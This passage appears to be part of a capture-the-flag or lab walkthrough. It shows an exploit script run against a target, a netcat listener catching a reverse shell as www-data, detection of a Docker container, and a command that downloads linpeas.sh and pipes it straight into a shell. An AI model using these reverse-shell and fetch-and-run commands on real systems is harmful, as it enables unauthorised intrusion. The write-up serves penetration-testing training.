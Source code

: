 ### Execution

```bash
./python script.py 192.168.40.49 80
```

**Listener**:

```bash
sudo nc -nlvp 443
```

![Reverse Shell](images/Pasted%20image%2020251013015341.png)

**Result**: Reverse shell obtained as `www-data`.

## Container Detection

### Network Analysis

```bash
www-data@e71b67461f6c:/var/www/html$ hostname -I
192.168.150.21
```

**Discovery**: Different IP indicates Docker container environment.

## Container Analysis

### System Enumeration

```bash
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```
